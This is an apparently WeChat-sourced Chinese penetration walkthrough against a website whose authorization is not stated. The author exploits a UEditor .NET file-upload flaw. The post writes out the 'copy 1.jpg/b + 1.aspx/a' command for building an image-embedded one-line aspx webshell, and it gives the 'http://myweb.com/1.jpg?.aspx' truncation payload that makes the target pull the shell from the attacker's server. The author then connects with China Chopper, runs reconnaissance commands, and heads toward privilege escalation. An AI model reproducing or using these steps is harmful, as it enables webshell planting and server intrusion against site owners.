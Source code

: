 这款工具还是蛮好用的，啥也不说，开干（我懒，就使用基础爬虫 + 扫描网站了）。

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCf4v2uibtrDt7l3QQR0ibN5bFS3Vm8vRcLVs3I75IlR0U3wskCGooBkkoA/640?wx_fmt=png)

。。。有点尬  只能手动测试下了， 习惯性的查看一下有没有目录遍历漏洞 

（我自己的手法: 找到一张图片 -> 右键复制地址到地址栏 -> 查看相关路径 -> 访问）

(注意: 图片一般最好选择文章或者资料里面的 别问，问就是直觉)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfvSbVYQf4WSiaqiazd7G2khAEUsbicNgyscpMwkQT7AbsBBAUBJ4K7Z0Lw/640?wx_fmt=png)

哦啊，没发现目录遍历但是发现了 ueditor，联想到之前插件扫到的 web 框架是 .net 的 有篇文章是专门讲解有关

Ueditor .net 下的漏洞的 https://www.freebuf.com/vuls/181814.html

先访问一下路径显示

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfMUB5deM17JiaKUfSqdsLteViaKrwFHBcoIiau4altibJZMmatg0LqTAMrw/640?wx_fmt=png)

利用 poc 上传（自己构造好 html 上传界面，然后上传自己服务器上的图片马用 ? 进行截断就可以了）

（服务器：白嫖一年彩虹云云主机 图片马: 非常简单，我们只需要一张图片 1.jpg 一句话木马写好的 aspx 文件 1.aspx，之后我们进入到命令行。注意：将 aspx 文件和图片文件放到同一目录下，cmd 也要跳转到放文件的目录下  
之后执行命令 _*copy*_ 1.jpg/b + 1.aspx/a 2.jpg  新生成的 2.jpg 就是我们制作好的图片马了。）

将 POC 中的 url 更换成我们的目标站, 上传格式 http://myweb.com/1.jpg?.aspx

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfbnsmD904exRWFBazxiaoiaBHKicAMQMRwxnnPicYwNGa1P2RPczz3zqbicA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCf2zz7ibODBRkmjuw49ZXASxPxkBKyUicbZ8lGCicibz0cc9EOYewwmziatqQ/640?wx_fmt=png)

上传成功 直接返回一句话地址

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfN9OX3JnnXhUNtt0wcCqkqMGMSWNrTsicd84BWZLaNzpzCuovcB8q9Kg/640?wx_fmt=png)

成功解析，上菜刀

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCffdhibQxO4HGibJNzh6SdxgNicKABHEgV12bicCcvnOvsmQmrQN4l1f9JGg/640?wx_fmt=png)

成功 getshell ，查看下权限

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfvC06c3jRjPCMVV28fMibEA36JADPicu2IXjRGvTcIibElwgHmxSU4udnQ/640?wx_fmt=png)

这权限属实有点小，不过还能执行命令  ipconfig 发现是 内网。。。怪不得

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCf4sAbO7P8jGC8bdr6fXsTY8pvMFIte6Bv9ia6ZNYicqlDcicyODibQcUp3A/640?wx_fmt=png)

Systeminfo

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCf63FZLejy2ghlFJlhJ56quyibKzBKD0sVd1iaoPeaq3f3xCiaeibZFk8vPg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEqAtbaDD0hmO0AUicMlliaCfKMNO8CGG1Y2qFeqm3zHicIujqHghNFw975DOdZAKpaPN4lm4GRQdfnQ/640?wx_fmt=png)

2012 修补了 8 个补丁 先祭出神站

https://bugs.hacking8.com/tiquan/ 在线 exp 对比，非常值得推荐
